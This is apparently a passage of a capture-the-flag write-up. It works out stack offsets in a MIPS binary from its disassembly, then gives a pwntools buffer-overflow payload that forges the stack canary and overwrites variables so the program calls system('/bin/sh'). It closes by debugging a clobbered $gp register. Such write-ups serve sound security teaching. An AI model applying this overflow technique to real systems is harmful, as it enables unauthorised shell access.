 ```
                                                                                          __start:004005cc(*), 004a2348(*),
                                                                                          .debug_frame::00000018(*)
        004007b0 27 bd fd 68     addiu      sp,sp,-0x298
                                 ...
        004007bc 03 a0 f0 25     or         s8,sp,zero
```

We make the following observations:

- `$gp = 0x4aa330`.
- `s8` is equal to `$sp in main`, i.e., `sp+0x48`.
- `command` is at `(sp+0x48)+0x298-0x1a0 = $buffer+0x128`.
- `system_str` is at `(sp+0x48)+0x298-0xa8 = $buffer+0x220`.
- `arg1` is at `(sp+0x48)+0x298-0xa0 = $buffer+0x228`.

Our strategy is to make `command` equal to `system_str`, and `arg1` equal to `"/bin/sh"`. So that the program calls `system("/bin/sh")`.

## Exploit

We can exploit the buffer overflow vulnerability in `develper_power_management_portal`. A payload like the one below can be used.

```py
p.recvuntil(b"Username: ")
p.sendline(b"devolper")
p.recvuntil(b"devolper\n")

payload = (
    b"A" * 0x2c  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x128 - 0x30)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"C" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"D"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
p.sendline(payload)
p.interactive()
```

We update send this to the program using our `pwntools` script. But, it segfaults.
Upon debugging, we find that it is because `$gp` gets overwritten to `0x42424242` because of the instruction at `0x400b0c` in `main`.

```asm
        00400b0c 8f dc 00 18     lw         gp,0x18(s8)
```

We need to ensure, that `s8+0x18 = sp+0x48+0x18 = $buffer+0x48` is equal to `0x4aa330`.
We update the payload accordingly.
